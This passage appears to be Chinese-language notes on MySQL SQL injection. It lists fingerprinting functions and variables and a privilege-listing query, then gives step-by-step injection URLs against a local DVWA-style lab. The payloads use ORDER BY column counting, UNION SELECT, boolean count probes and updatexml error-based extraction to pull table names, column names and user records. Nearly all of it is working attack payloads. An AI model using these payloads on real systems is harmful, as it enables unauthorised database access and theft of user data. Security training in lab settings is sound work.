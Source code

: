 	4. `session_user()`，連接資料庫的使用者
	5. `database()`，當前資料庫名稱
	6. `schema()`，當前資料庫名稱
	7. `@@version`、`version()`，當前資料庫版本信息
	8. `@@datadir`，資料庫檔案存放路徑
	9. `@@hostname`，伺服器主機名稱
	10. `@@basedir`，MYSQL 安裝路徑
	11. `@@version_compile_os`，作業系統
	12. 列出權限
		```sql
		SELECT grantee, privilege_type, is_grantable 
		FROM information_schema.user_privileges; 
		```

### 注入攻擊基本流程
以下注入流程會考慮到有些程式邏輯僅列出第一筆資料的情況

1. 確認資料表欄位數量
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		order by 1,2
	```
1. 確認資料庫名稱
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		union select all 1,database()
	```
1. 確認資料表數量
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		and (select count(*) from information_schema.tables WHERE table_schema = DATABASE())> 2
	```
1. 確認每個資料表名
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		and updatexml(0x0c,concat(0x0c,(select table_name FROM information_schema.tables WHERE table_schema = DATABASE() limit 0,1)),0x0c)
	```
1. 確認每個資料表欄位數量
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		and (select count(*) FROM information_schema.columns WHERE TABLE_NAME = 'users') > 7
	```
1. 確認每個欄位名稱
	```url
	http://127.0.0.1/LAB/index.php?id='1' 
		and updatexml(0x0c,concat(0x0c,(select column_name FROM information_schema.columns WHERE TABLE_NAME = 'users' limit 0,1)),0x0c)
	```
1. 取出每個欄位中的資料
	```url
	http://127.0.0.1/LAB/index.php?id='1'
		and updatexml(0x0c,concat(0x0c,(select user from dvwa.users limit 0,1)),0x0c)
	```
